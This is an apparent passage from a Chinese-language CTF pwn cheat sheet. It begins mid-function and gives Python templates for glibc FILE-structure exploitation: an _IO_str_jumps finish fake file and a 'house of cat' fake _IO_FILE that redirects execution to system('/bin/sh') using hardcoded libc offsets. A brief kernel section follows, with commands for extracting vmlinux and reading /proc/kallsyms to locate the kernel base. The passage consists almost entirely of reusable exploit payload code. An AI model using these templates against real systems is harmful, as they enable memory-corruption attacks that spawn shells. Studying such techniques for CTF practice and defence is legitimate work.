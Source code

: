 ```python
    file_struct = file_struct.ljust(0xc0, b'\x00')
    file_struct += p64(_mode)
    file_struct = file_struct.ljust(0xd8, b"\x00")
    return file_struct
```

#### _IO_str_jumps -> finish板子

```python
fake_file = pack_file(_IO_read_base=IO_list_all-0x10,
                    _IO_write_base=0,
                    _IO_write_ptr=1,
                    _IO_buf_base=binsh,
                    _mode=0,)
fake_file += p64(IO_str_jumps-8)+p64(0)+p64(system)
```

#### house of cat（system)板子

```python
fake_IO_FILE = "/bin/sh\x00"+p64(0)*3
fake_IO_FILE +=p64(0)
fake_IO_FILE +=p64(0)
fake_IO_FILE +=p64(1)+p64(0)
fake_IO_FILE +=p64(heap_addr)#rdx
fake_IO_FILE +=p64(system_addr)#call addr
fake_IO_FILE +=p64(0xffffffffffffffff)
fake_IO_FILE = fake_IO_FILE.ljust(0x48, '\x00')
fake_IO_FILE += p64(0 ) # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(libcbase+2210384) # _lock = writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(stdout_addr+0x30) #rax1
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(0) # _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+2187456+0x10) # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(stdout_addr+48) # rax2
```



## kernel相关

如果题目没有给 vmlinux，可以通过 [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 提取出来。

```
./extract-vmlinux ./bzImage > vmlinux
```

```
cat /proc/kallsyms | grep _text 找内核基址
```
